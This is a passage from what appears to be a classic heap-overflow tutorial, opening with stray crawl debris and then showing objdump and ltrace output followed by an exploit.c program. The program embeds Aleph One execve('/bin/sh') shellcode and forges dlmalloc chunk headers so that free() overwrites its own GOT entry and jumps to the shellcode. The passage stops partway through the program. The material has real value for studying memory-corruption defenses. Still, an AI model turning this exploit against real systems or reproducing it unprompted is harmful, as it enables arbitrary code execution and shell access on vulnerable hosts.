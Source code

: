 </PRE>
<http://www.openwall.com/linux/>
<http://pageexec.virtualave.net/>
<PRE>

</PRE>
```c
$ objdump -R vulnerable | grep free
0804951c R_386_JUMP_SLOT   free

$ ltrace ./vulnerable 2>&1 | grep 666
malloc(666)                                       = 0x080495e8

$ set -o noclobber && cat > exploit.c << EOF
#include <string.h>
#include <unistd.h>

#define FUNCTION_POINTER ( 0x0804951c )
#define CODE_ADDRESS ( 0x080495e8 + 2*4 )

#define VULNERABLE "./vulnerable"
#define DUMMY 0xdefaced
#define PREV_INUSE 0x1

char shellcode[] =
        /* the jump instruction */
        "\xeb\x0appssssffff"
        /* the Aleph One shellcode */
        "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
        "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
        "\x80\xe8\xdc\xff\xff\xff/bin/sh";

int main( void )
{
        char * p;
        char argv1[ 680 + 1 ];
        char * argv[] = { VULNERABLE, argv1, NULL };

        p = argv1;
        /* the fd field of the first chunk */
        *( (void **)p ) = (void *)( DUMMY );
        p += 4;
        /* the bk field of the first chunk */
        *( (void **)p ) = (void *)( DUMMY );
        p += 4;
        /* the special shellcode */
        memcpy( p, shellcode, strlen(shellcode) );
        p += strlen( shellcode );
        /* the padding */
        memset( p, 'B', (680 - 4*4) - (2*4 + strlen(shellcode)) );
        p += ( 680 - 4*4 ) - ( 2*4 + strlen(shellcode) );
        /* the prev_size field of the second chunk */
        *( (size_t *)p ) = (size_t)( DUMMY & ~PREV_INUSE );
        p += 4;
        /* the size field of the second chunk */
        *( (size_t *)p ) = (size_t)( -4 );
        p += 4;
        /* the fd field of the second chunk */
        *( (void **)p ) = (void *)( FUNCTION_POINTER - 12 );
        p += 4;
        /* the bk field of the second chunk */
        *( (void **)p ) = (void *)( CODE_ADDRESS );
        p += 4;
        /* the terminating NUL character */
```